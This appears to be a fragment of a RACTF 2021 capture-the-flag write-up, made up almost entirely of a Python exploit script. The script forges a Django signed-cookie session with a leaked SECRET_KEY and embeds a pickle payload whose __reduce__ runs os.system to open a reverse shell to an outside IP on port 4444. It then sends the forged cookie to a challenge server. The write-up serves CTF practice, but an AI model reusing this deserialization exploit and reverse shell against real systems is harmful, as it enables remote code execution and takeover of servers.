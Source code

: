 ![ractf202111](img/ractf2021/ractf202111.png)

### payload

```python
from django.core.signing import TimestampSigner, b64_encode
from django.utils.encoding import force_bytes
from django.conf import settings
import pickle
import os
import requests


class PickleRCE(object):
    def __reduce__(self):
        return (os.system, (
            """python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("144.34.245.238",4444));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'""",
        ))


SECRET_KEY = 'wr`BQcZHs4~}EyU(m]`F_SL^BjnkH7"(S3xv,{sp)Xaqg?2pj2=hFCgN"CR"UPn4'
settings.configure(DEFAULT_HASHING_ALGORITHM='sha256')


def rotten_cookie():
    key = force_bytes(SECRET_KEY)
    print('key:'+str(key))
    salt = 'django.contrib.sessions.backends.signed_cookies'
    pick = pickle.dumps(PickleRCE(), protocol=0)
    print(pick)
    base64d = b64_encode(pick).decode()
    print('base64d: '+str(base64d))
    return TimestampSigner(key, salt=salt).sign(base64d)


forge_sessionid = rotten_cookie()
print(forge_sessionid)
r = requests.get('http://193.57.159.27:42585',
                 cookies={'sessionid': forge_sessionid})
print(r.status_code)
```

## I'm a fan

> *2021/09/01*

